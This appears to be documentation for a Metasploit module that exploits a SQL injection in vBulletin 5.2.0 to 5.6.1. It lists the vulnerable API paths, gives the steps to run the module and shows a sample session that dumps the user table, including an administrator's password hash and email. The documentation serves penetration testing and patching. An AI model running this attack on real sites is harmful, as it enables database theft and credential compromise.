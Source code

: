 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field. The data stored on the file system contains the entire `user` table or a dump of all the
vBulletin tables in json format.

## Verification Steps

1. Do: ```use auxiliary/gather/vbulletin_getindexablecontent_sqli```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```run```

## Options

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired
by brute-forcing

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf auxiliary(gather/vbulletin_getindexablecontent_sqli) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf auxiliary(gather/vbulletin_getindexablecontent_sqli) > set VHOST vb.local
VHOST => vb.local
msf auxiliary(gather/vbulletin_getindexablecontent_sqli) > set TARGETURI /
TARGETURI => /vb5
msf auxiliary(gather/vbulletin_getindexablecontent_sqli) > show actions 

Auxiliary actions:

   Name      Description
   ----      -----------
   DumpAll   Dump all tables used by vbulletin.
   DumpUser  Dump only user table used by vbulletin.

msf auxiliary(gather/vbulletin_getindexablecontent_sqli) > run

[*] Running module against 192.168.1.100
[*] Brute forcing to find a valid node id.
[+] Successfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[+] Successfully retrieved table to get prefix from vb5_language.
[*] Getting table columns for vb5_user
[+] Retrieved 78 columns for vb5_user
[*] Dumping table vb5_user
[*] Table contains 1 rows, dumping (this may take a while).
[+] Found credential: administrator:$2y$15$I5t0BGBeYaYGbaRhhBr8g.EBax846Jx3B6ady..nwuPxOWAYicYvi (Email: zenofex@exploitee.rs)
[+] Retrieved 1 rows for vb5_user
[+] Saved file to: /home/zenofex/.msf4/loot/20200522180431_default_192.168.1.100_vb5_user_305077.txt
[*] Auxiliary module execution completed

```
